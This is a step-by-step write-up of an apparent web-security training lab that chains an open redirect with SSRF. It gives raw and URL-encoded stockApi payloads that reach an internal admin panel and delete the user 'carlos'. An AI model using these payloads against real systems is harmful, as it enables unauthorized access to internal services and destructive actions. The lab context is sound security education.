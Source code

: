 # SSRF with filter bypass via open redirection vulnerability

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

## The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

---

### step 1

intercept stock check feature which fetches data from an internal system
send to repeater

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%
send request response => 200 ok

add path=http://192.168.0.68/admin
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1&path=http://192.168.0.68/admin
send request response => 200 ok
but no admin panel display

### step2

there is next product in stock check feature page click and intercept
GET /product/nextProduct?currentProductId=2&path=/product?productId=3

![screenshot](images/lab4_next_product.jpg)

click on _follow redirection_

![screenshot](images/lab4_follow_redirection.jpg)

enter https://www.google.com in path senction

![screenshot](images/lab4_test_ssrf_vulnerability.jpg)

click on folllow redirection

![screenshot](images/lab4_render_follow_redirection.jpg)

### step3

intercept stock check feature which fetches data from an internal system
add /product/nextProduct?currentProductId=2&path=/product?productId=3
select url and press ctrl + u url encoder
stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3d/product%3fproductId%3d3
send request response => 200 ok

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin

![screenshot](images/lab4_admin_panel_carlos_wiener.jpg)

add /http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admindelete?username=carlos
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos

![screenshot](images/lab4_carlos_deleted.jpg)
